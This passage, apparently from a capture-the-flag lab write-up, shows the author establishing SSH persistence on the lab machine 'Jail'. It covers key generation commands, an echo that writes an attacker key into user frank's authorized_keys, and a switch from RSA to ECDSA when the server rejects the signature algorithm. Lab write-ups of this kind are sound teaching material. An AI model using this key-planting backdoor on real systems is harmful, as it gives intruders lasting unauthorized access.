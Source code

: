 It is at this moment that I'm going to establish **persistence** to be able to connect by **SSH** with **frank's account**, I only have to generate a pair of keys using the **RSA** public key algorithm, then I have to save the public key as an authorized key in the victim machine, but if I try to connect later there is a problem with the **signature algorithm** allowed in the remote server. After researching on the **Internet** I find the type of algorithm (**ECDSA**) and the right number of bits to **[generate the key pair](https://www.ssh.com/academy/ssh/keygen){:target="_blank"}** and now I succeed to connect via **SSH** without the need of the password after saving the generated public key as authorized.

> **Attacker Machine**:

```bash
ssh-keygen -t rsa
cat id_rsa.pub | tr -d '\n' | xclip -sel clip
```

> **Victime Machine**:

```bash
echo "ssh-rsa AAAAB3Nz...x5sg0= al3j0@al3j0k4l1" > /home/frank/authorized_keys
```

> **Attacker Machine**:

```bash
ssh frank@10.10.10.34

ssh frank@10.10.10.34 -vv
# debug1: send_pubkey_test: no mutual signature algorithm
# id_ecdsa

ssh-keygen -t ecdsa -b 521
cat id_ecdsa.pub | tr -d '\n' | xclip -sel clip
```

> **Victime Machine**:

```bash
echo "ecdsa-sha2-nistp521 AAA....nYj8swA== al3j0@al3j0k4l1" > /home/frank/authorized_keys
cat /home/frank/authorized_keys
```

> **Attacker Machine**:

```bash
ssh frank@10.10.10.34
# :)
```

<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jail_writeup/Jail_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
